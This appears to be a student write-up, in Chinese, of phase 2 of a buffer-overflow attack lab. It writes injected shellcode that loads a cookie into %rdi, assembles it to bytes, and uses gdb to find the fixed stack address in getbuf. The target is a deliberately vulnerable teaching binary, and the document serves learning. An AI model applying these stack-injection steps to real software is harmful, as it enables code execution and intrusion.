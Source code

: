 ![](phase1.png)

## Phase2

与Phase1类似，只不过要把 `%rdi` 改写成 `cookie.txt` 中的 `0x47db4e3a`，由于栈地址固定（没有ASLR），这一步需要获取固定栈地址。

编写攻击代码 `phase2.s` 如下 （cookie值为 `0x47db4e3a`）：

```assembly
movq $0x47db4e3a, %rdi
retq
```

使用命令 `gcc -c phase2.s; objdump -d phase2.o > phase2.d` 得到文件 `phase2.d` 如下：

```assembly
phase2.o：     文件格式 elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:	48 c7 c7 3a 4e db 47 	mov    $0x47db4e3a,%rdi
   7:	c3                   	retq   
```

得到执行代码 `48 c7 c7 3a 4e db 47 c3` 。

查看 `touch2` 函数代码如下：

```assembly
0000000000401837 <touch2>:
  401837:	48 83 ec 08          	sub    $0x8,%rsp
  ...
```

并且需要知道栈地址，使用命令 `gdb ctarget` 打开gdb之后运行

```gdb
b getbuf
r -q
n
```

执行到 `0x4017f5 <getbuf+0>       sub    rsp, 0x38` 之后，`%rsp` 的值为 `0x55652778`， 如下所示：

```assembly
gef➤  n
14	in buf.c
───────────────────────────────────────────────────────────────────[ registers ]────
$rax   : 0x0000000000000000
$rbx   : 0x0000000055586000  →  0x0000000055586000
$rcx   : 0x000000000000000c
$rdx   : 0x00007ffff7dd3780  →  0x00007ffff7dd3780
$rsp   : 0x0000000055652778  →  0x00000000000000f4
$rbp   : 0x0000000055685fe8  →  0x0000000000402fe5  →  0x3a6968003a697168 ("hqi:"?)
$rsi   : 0x000000000000000c
$rdi   : 0x000000000060601c  →  0x000a613365346264 ("db4e3a"?)
$rip   : 0x00000000004017f9  →  <getbuf+4> mov rdi, rsp
$r8    : 0x00007ffff7fb3700  →  0x00007ffff7fb3700  →  [loop detected]
$r9    : 0x000000000000000c
$r10   : 0x00000000004032f4  →  "Type string:"
```